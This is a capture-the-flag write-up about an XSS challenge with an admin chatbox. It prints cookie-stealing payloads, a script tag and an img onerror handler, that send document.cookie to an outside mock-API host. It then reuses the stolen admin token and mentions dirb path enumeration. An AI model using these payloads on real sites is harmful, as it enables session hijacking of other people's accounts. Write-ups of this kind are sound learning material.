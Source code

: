 This challenge is clearly another xss challenge as its in the webpage link we get.<br />
We see a page with a moving image and a chatbox with an admin.

I tried the same xss as in the Government Agriculture Network challenge:<br />
\<script\>location.href="https://paulovh.free.beeceptor.com?"+ document.cookie\</script\>

This returns:<br />
HACKER ALERT!

So there is some checking for xss going on.
This can get very tricky as i found out last year however the first thing I checked already worked out:<br />
Using an img tag with an onerror that executes javascript is another very common way to inject javascript and this does work:<br />
\<img src=X onerror='location.href="https://paulovh.free.beeceptor.com?"+ document.cookie'/\>

This gave me the flag on the beeceptor mock api page!

When trying to go to /admin of the page you get redirected back to the same page at first.<br />
I tried this /admin page as it is a common page on many sites but for a more reliable way of getting these kind of pages you can use:<br />
dirb https://cwo-xss.web.ctfcompetition.com<br />
the dirb program will go trough a wordlist of common website paths and test them all and return you which ones worked.

But the xss also gives you an auth token from the admin.
Adding this in my firefox storage (explained in my Government Agriculture Network write-up) and going again to the /admin page I now get a new page with 3 options:
- Users
- Livestreams
- Camera Controls

The first 2 do nothing the last one gives the message:<br />
Requests only accepted from 127.0.0.1

Here I got stuck. I did not know for sure there was a flag to find here but it did seem like there was something here.

I eventualy needed to read a write-up to find this flag :( There is some magic happening with parameters in the url that make the page think you are comming from 127.0.0.1<br />
I dont know how I should have found this. I will be looking for write-ups that give a better explanation than the first I found and add a better explanation here if I do.

This part I abandoned after I had failed myself in the crypto challenge. Maybe more googleing would make it clear even without finding other write-ups but at this point I had had enough for now.

